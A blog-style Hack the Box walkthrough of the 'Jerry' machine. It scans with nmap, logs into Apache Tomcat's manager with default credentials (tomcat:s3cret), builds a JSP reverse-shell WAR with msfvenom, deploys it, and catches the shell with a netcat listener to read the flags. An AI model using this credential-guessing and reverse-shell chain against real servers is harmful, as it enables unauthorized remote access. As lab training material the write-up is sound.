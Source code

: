 ```yaml
---
title: "Walkthrough of Jerry Machine – Hack the Box"
description: ""
date: 2020-08-23T23:56:29-07:00
lastmod: 2020-08-23T23:56:29-07:00
cover: ""
coverAlt: ""
toc: false
tags: ["HacktheBox",
    	"Walkthrough",
]
draft: false
---
```



1. In a new terminal window, run `nmap -sC -sV 10.10.10.95`
	* `-sC`: Adds on the "default" scripts to be run which include things like "Speed", "usefulness", and "Intrusiveness". You can check them out in more detail by looking under *"default"* in the **Script Categories** section on [this website](https://nmap.org/book/nse-usage.html)
	* `-sV`: Probe open ports to determine service/version info
![image](https://user-images.githubusercontent.com/44144070/90194000-0d2d2600-dd7b-11ea-95bb-7876faf2f160.png)
2. It looks like we only have one open port (8080) and it's running a service called **Apache Tomcat/Coyote JSP engine 1.1**
3. If we do a little research we find out a few things:
	* **Apache Tomcat** is [a "pure Java" HTTP web server environment in which Java code can run](https://en.wikipedia.org/wiki/Apache_Tomcat)
	* **Coyote** [is a Connector component for Tomcat that supports the HTTP 1.1 protocol as a web server](https://en.wikipedia.org/wiki/Apache_Tomcat#Coyote)
3. Being that **Apache Tomcat** (or **Tomcat** for short) provides a web-server environment, we can actually go to the website and see it.
4. Let's check it out by going to *http://10.10.10.95:8080*
	* This URL works because we know from the portscan that **Tomcat** is an http service, so we add the *"http://"* at the beginning followed by the HTB IP address, and then the *":8080"* allows us to specify the port number. All of this works together to say we want to go to the IP address *10.10.10.95* via an *http* connection at port *8080*
1. Once we get there we can see a few things:
![image](https://user-images.githubusercontent.com/44144070/90194129-6301ce00-dd7b-11ea-9ced-6de716eaae9f.png)
1. If we explore around, most of the clickable options redirect us to help pages for how to use **Tomcat**, with the exception of the *Server Status*, *Manager App*, and *Host Manager*. If we click on any of those three we get this pop-up:
![](https://user-images.githubusercontent.com/44144070/90194521-5d58b800-dd7c-11ea-83e6-e5d31cadc18c.png)
1. So it's asking us for credentials that we don't know. Before trying to set up any complicated password breaking attacks, I find it a good idea to try at least a few of the basics. Some of these include *admin:admin*, *admin:password*, *admin:pass*, etc, (where *admin* stands for *administrator* in the hopes that with these credentials we can log into the account with the most privileges
2. If we try *admin:admin* on the *Server Status* feature it works! And we end up looking at a page like this:
![](https://user-images.githubusercontent.com/44144070/90194585-7e210d80-dd7c-11ea-841d-bdb63ee97243.png)
1. This page has a bunch of information about **Tomcat** and this particular server it's running on. Unfortunately, aside from telling us a little bit more about the server, it doesn't help us get any closer finding a vulnerability
2. Lets go back and try a different option to see if we can find something more useful. If we go back to the main page and click on *Manager App* however, we get this 403 error message (you may have also gotten a similar 401 error message earlier if you had clicked *Cancel* or exited out of the username password prompt):
	* The 401 error is a result of the website thinking we are attempting to access a page without giving credentials when we exit out of the login pop-up, and the 403 error is when we are logged in with credentials, but then try and access a page that we don't have privileges to
![](https://user-images.githubusercontent.com/44144070/90194659-985aeb80-dd7c-11ea-9e8a-7baee5498d7c.png)
1. This error message is very interesting though, if we read it, we find that it gives us instructions on how to set up a manager account, with example credentials *tomcat:s3cret*. Now what often happens is that people will follow these instructions exactly (same way you might go about changing a password for a website), however, if the service doesn't check for (or the user doesn't remember to change) the example credentials, then we may be able to use them to sign into our administrator account
1. To be able to try this new idea though, we first need to be able to get our pop-up back to retry our credentials, and as you probably noticed, **Tomcat** will only show us error messages instead. To fix this, we need to go to *Preferences* -> *Privacy & Security* -> *History* and clear our history (there should be options as to how far back you want to erase your history if you don't want to delete everything):
![](https://user-images.githubusercontent.com/44144070/90194719-bd4f5e80-dd7c-11ea-8481-5a6832331cfd.png)
	* The reason this works, is because every time we attempt to log in, the website takes our credentials, encodes them, and puts them in what's called a "header". This header is read by the website and if it matches the proper credentials, then it will allow us to access the content. If it doesn't match, then the website will react with an error message. Most browsers save our most recent credentials or headers on websites, so by clearing our history, we can clear them which allows us to try again.
4. Once we've done that, we can go back, click on *Manager App* and our pop-up is back!
5. If we try *tomcat:s3cret* it works and we get this page:
![](https://user-images.githubusercontent.com/44144070/90194758-d35d1f00-dd7c-11ea-808c-aef11f8837b5.png)
6. If we explore around a little we'll find a section called *"WAR file to deploy"*, and this is what we're going to want to look at, because chances are if we have the ability to upload something, we can make that something do what we want
![](https://user-images.githubusercontent.com/44144070/90194805-ecfe6680-dd7c-11ea-8743-f0b840a6c14c.png)
	* So what even is a WAR file?
		* A WAR (Web Application Resource) file is like a ZIP file in the sense that it is actually a collection of other files compressed together. However unlike ZIP files, WAR files are comprised solely of [JAR](https://en.wikipedia.org/wiki/JAR_(file_format)) files meant to hold resources to create a website
9. Now before we start trying to write our own WAR file, lets check if we have any tools that might have something already written
10. One way we can check is by using a program called **MsfVenom**, a payload generator for **Metasploit**
11. Since we know WAR files are a collection of JSP/Java files, lets see what payload options  **MsfVenom** has with `msfvenom -l payloads | grep java`
	* The `msfvenom -l payloads` will list all of the payloads **MsfVenom** can produce, but since there are so many we'll want to reduce our results by pipelining the results through `grep java` which filters all the results and shows us only the ones with the word "java" in it
![](https://user-images.githubusercontent.com/44144070/90194897-1ae3ab00-dd7d-11ea-8596-af7405e332d4.png)
12. Taking a look at these results, we can narrow it down by figuring out what else we want, JSP (because it's a WAR file), a reverse shell (check out the first bit of [this article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) to understand why), and a tcp connection (as we determined from our portscan). This leaves us with the *"java/jsp_shell_reverse_tcp"* option
13. To create our WAR file to upload to **Tomcat**, we'll run `msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourHtbIp LPORT=openPort -f war > aName.war`. Now that's a big command with a lot of fill-in-the-blanks so let's break it down:
	* `msfvenom`: We are using **MsfVenom** to create our program and this calls it
	* `-p java/jsp_shell_reverse_tcp`: This indicates that we want to create a <ins>**p**</ins>ayload in *java* that will create a *JSP Reverse Shell* using a *TCP* connection
	* `LHOST=yourHtbIp`: Setting the local host by replacing "yourHtbIp" with your Hack the Box IP (can be found in the **Access** tab when signed into your HTB account)
	* `LPORT=openPort`: Setting the port to be used for the reverse shell connection
	* `-f war`: Setting the <ins>**f**</ins>ormat of the payload to be a WAR file
	* `> aName.war`: Replace "aName" with whatever you want to name your payload file
1. You'll want to run your version of the command, and after a few moments you'll get a message saying the size of the file, and if we type `ls` we can see our file!
![](https://user-images.githubusercontent.com/44144070/90195123-8d548b00-dd7d-11ea-8e9f-ab9c211396e3.png)
11. So let's go ahead and upload our WAR file to **Tomcat** by clicking *"Browse"* in the *"WAR file to deploy"* section, and once we see our file in there, click *"Deploy"*
![](https://user-images.githubusercontent.com/44144070/90195193-ad844a00-dd7d-11ea-8818-d64676277795.png)
1. If you did it right, you should see your file sorted in alphabetically with the other preexisting files:
![](https://user-images.githubusercontent.com/44144070/90195220-bbd26600-dd7d-11ea-9d35-9c0a13684bc1.png)
2. Before we do anything with it though, since we learned a Reverse Shell relies on a "listener" running on our device for our victim to connect to with a shell, we need to set up a listener with `nc -lvnp yourLPORT`
	* `-lvnp` is short for `-l -v -n -p` and specifies four things:
		* `-l`: Listen for incoming traffic
		* `-v`: Be verbose (give details of what is going on in the process)
		* `-n`: No DNS lookups are required (it saves time and makes the command simpler)
		* `-p`: Specifies a specific port to be listening on (which is why you need to put an open port after to be listening on)
12. Once we do that, we should get this response showing that our "listener" is ready
![](https://user-images.githubusercontent.com/44144070/90195262-d86e9e00-dd7d-11ea-8a05-c4e79114cbe1.png)
13. Let's go ahead and activate our WAR file by clicking on it in **Tomcat**, and if we check our listener, we have a shell!
![](https://user-images.githubusercontent.com/44144070/90195317-f50ad600-dd7d-11ea-89fa-bb44e930cd29.png)
1. Since we're in a new shell, we'll want to check out the *help* page to see what the commands are by running `help`
![](https://user-images.githubusercontent.com/44144070/90195340-0522b580-dd7e-11ea-935d-8235bb2c27dc.png)
14. We can see all of the commands and what they do in this shell, the main ones that concern us will be that the command `dir` replaces `ls` and `cat` is replaced with `type`
15. If we navigate around using these commands, we'll find a file in *Users/Administrator/Desktop/flags* called *"2 for the price of 1.txt"*
![](https://user-images.githubusercontent.com/44144070/90195404-25eb0b00-dd7e-11ea-9184-ac1fbf931ffc.png)
16. If we run `type "2 for the price of 1.txt"`, then we can see our user and root hashes and enter them to get our points!


## Resources
- [Official Jerry Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/144)
- [Jerry Video Tutorial from IppSec](https://youtu.be/PJeBIey8gc4)
- [Jerry Write-Up by 0xRick](https://0xrick.github.io/hack-the-box/jerry/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)
- [Information on Apache Tomcat](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Information on NetCat Commands](https://www.varonis.com/blog/netcat-commands/)
- [Information on WAR files](https://en.wikipedia.org/wiki/WAR_(file_format))


###### <font size="1">78 97 39 77 104 111 105 39 67 104 98 32 116 39 111 98 102 99 39 116 119 107 110 115 116 39 104 119 98 105 39 102 105 99 39 102 39 82 65 72 39 116 111 104 114 107 99 39 97 107 126 39 104 114 115 43 39 78 39 112 102 105 115 39 126 104 114 39 115 104 39 111 102 113 98 39 98 127 119 98 100 115 98 99 39 110 115</font>